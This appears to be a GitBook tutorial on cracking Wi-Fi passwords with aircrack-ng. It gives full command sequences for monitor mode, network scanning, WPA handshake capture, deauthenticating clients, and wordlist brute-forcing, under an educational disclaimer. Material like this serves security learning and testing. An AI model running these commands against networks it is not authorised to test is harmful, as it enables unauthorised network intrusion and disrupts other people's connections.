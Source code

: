 ```yaml
---
hidden: true
icon: wifi-slash
---
```


# How to Crack a Wifi

This tutorial demonstrates how to crack a Wi-Fi network using a wireless adapter in monitor mode and the `aircrack-ng` suite. Created by @bst04.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
**Disclaimer:** This guide is intended for educational purposes only. Unauthorized access to any network is illegal and unethical. Use this knowledge responsibly and ethically.
{% endhint %}

***

### 📌 Basic Information

#### 1. Network Protocols

Understanding the protocols used in Wi-Fi networks is essential:

* **WEP (Wired Equivalent Privacy):** An obsolete protocol with significant security flaws.
* **WPA (Wi-Fi Protected Access):** Improved security over WEP but still vulnerable to weak passwords.
* **WPA2:** More secure than WPA, using AES/PSK encryption. Still susceptible to brute-force attacks if weak passwords are used.
* **WPA3:** The latest standard with enhanced protection against brute-force attacks. However, not all networks have adopted it yet.

#### 2. Encryption and Authentication Methods

* **TKIP (Temporal Key Integrity Protocol):** Legacy encryption with dynamic keys per packet; vulnerable to brute-force attacks.
* **AES (Advanced Encryption Standard):** A secure symmetric encryption method widely used in modern Wi-Fi networks.
* **PSK (Pre-Shared Key):** Commonly used for home networks, where a shared key is used for authentication. Vulnerable to brute-force attacks if the password is weak.

***

### 📋 Requirements

Before proceeding, ensure you have the following:

1. **Aircrack-ng Suite:** Installed on your system.
2. **Wireless Adapter Compatible with Monitor Mode:** Ensure your adapter supports packet injection and monitor mode.

***

### 🚀 Step-by-Step Process

#### Step 1: Install Aircrack-ng

If you're not using Kali Linux, you'll need to install the `aircrack-ng` suite. Run the following command in your terminal:

```bash
sudo apt-get update
sudo apt-get install aircrack-ng
```

_Note:_ If you're using Kali Linux, `aircrack-ng` is pre-installed.

***

#### Step 2: Enable Monitor Mode

To capture packets from the target network, your wireless adapter must be in monitor mode. First, identify your wireless interface by running:

```bash
ip addr
```

Once you know the interface name (e.g., `wlan0`), enable monitor mode:

```bash
sudo airmon-ng start [interface]
```

_Example:_\
If your interface is `wlan0`, run:

```bash
sudo airmon-ng start wlan0
```

This will create a new interface, typically named `wlan0mon`.

***

#### Step 3: Scan for Wi-Fi Networks

Use `airodump-ng` to scan for nearby Wi-Fi networks:

```bash
sudo airodump-ng [interface + mon]
```

_Example:_\
If your monitor mode interface is `wlan0mon`, run:

```bash
sudo airodump-ng wlan0mon
```

This will display a list of available networks, including their BSSID (MAC address), channel, and encryption type. Note down the details of the target network.

***

#### Step 4: Capture the Handshake

Focus on the target network by capturing its handshake. Use the following command:

```bash
sudo airodump-ng -c [channel] --bssid [BSSID] -w [output file] [interface + mon]
```

_Example:_\
If the target network is on channel 6 with BSSID `00:11:22:33:44:55`, run:

```bash
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon
```

Leave this process running until the handshake is captured. You can verify the capture by checking the output file (`capture-01.cap`).

To speed up the handshake capture, deauthenticate connected clients using `aireplay-ng`:

```bash
sudo aireplay-ng -0 5 -a [BSSID] -c [STATION] [interface + mon]
```

_Example:_\
If the station (connected device) is `66:77:88:99:AA:BB`, run:

```bash
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c 66:77:88:99:AA:BB wlan0mon
```

***

#### Step 5: Crack the Password

Once you have the handshake file, use `aircrack-ng` to attempt cracking the password. Provide a wordlist for brute-forcing:

```bash
sudo aircrack-ng -w [wordlist file] [handshake file]
```

_Example:_\
If your wordlist is `rockyou.txt` and the handshake file is `capture-01.cap`, run:

```bash
sudo aircrack-ng -w rockyou.txt capture-01.cap
```

The tool will try each password in the wordlist until it finds a match or exhausts the list.

***

### 🛠 Tips and Best Practices

1. **Use a Strong Wordlist:** Tools like `hashcat` or online resources provide comprehensive wordlists.
2. **Optimize Your Wireless Adapter:** Ensure your adapter is compatible with packet injection and has good signal reception.
3. **Be Patient:** Cracking strong passwords may take time, depending on the complexity and length of the passphrase.

***

### Conclusion

By following these steps, you can learn how to crack a Wi-Fi network using `aircrack-ng`. Remember to use this knowledge responsibly and within legal boundaries. Happy learning!
